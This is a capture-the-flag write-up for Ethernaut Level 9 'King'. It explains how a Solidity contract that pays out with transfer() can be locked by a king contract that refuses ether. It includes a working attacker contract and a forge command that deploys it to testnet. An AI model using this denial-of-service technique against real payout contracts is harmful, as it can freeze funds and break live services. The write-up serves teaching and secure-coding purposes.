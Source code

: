 <div align="center">
<p align="left">(<a href="https://github.com/Pedrojok01/Ethernaut-Solutions?tab=readme-ov-file#solutions">back</a>)</p>

<img src="../assets/levels/9-king.webp" width="600px"/>
<br><br>
<h1><strong>Ethernaut Level 9 - King</strong></h1>

</div>

## Table of Contents

- [Table of Contents](#table-of-contents)
- [Objectif](#objectif)
- [The hack](#the-hack)
- [Solution](#solution)
- [Takeaway](#takeaway)
- [References](#references)

## Objectif

<img src="../assets/requirements/9-king-requirements.webp" width="800px"/>

## The hack

In this level, the goal is to become the king and then make sure that the contract is not able to transfer the prize to the next king. In other words, we have to become king and then break the game.

This requires an understanding of how the now-considered deprecated `transfer` works in solidity. This function throws an error if the transfer fails, but doesn't return a boolean value. This means that if the transfer fails, the transaction will revert.

```javascript
receive() external payable {
    require(msg.value >= prize || msg.sender == owner);
    payable(king).transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
  }
```

First, we need to check the `prize` function to see how much ether is required to pass the `require` statement and become king.

Now, that we are king, how can we make sure that no one else can dethrone us? How to make sure the `transfer()` function reverts systematically after us? The answer is pretty simple, we just need to make sure that our king contract can't receive any ether. As long as no `receive()` or `fallback()` function is defined, the contract will not be able to receive any ether via the King contract, which will effectively prevent anyone from becoming the new king after us.

## Solution

Deploy a contract that can't receive ether via the "normal" way (no `receive()` or `fallback()` functions).

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

interface IKing {
    function prize() external returns (uint256);
}

contract FallenKing {
    address private immutable king;

    constructor(address _king) {
        king = _king;
    }

    function attack() external payable {
        uint256 prize = IKing(king).prize();
        (bool success, ) = king.call{value: prize}("");
        require(success, "Transfer failed");
    }
}
```

Then, you can use forge scripts to deploy this contract and call the `attack` function:

```bash
forge script script/9_King.s.sol:PoC --rpc-url sepolia --broadcast --verify --etherscan-api-key $ETHERSCAN_API_KEY --watch
```

## Takeaway

- `send` and `transfer` are now considered deprecated. They should be replaced by `call` with a proper Check-Effect-Interaction pattern to prevent re-entrancy.
- <b>External calls must be used with caution and must handle errors properly.</b>

## References

https://blog.chain.link/defi-security-best-practices/
https://www.kingoftheether.com/postmortem.html

<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>
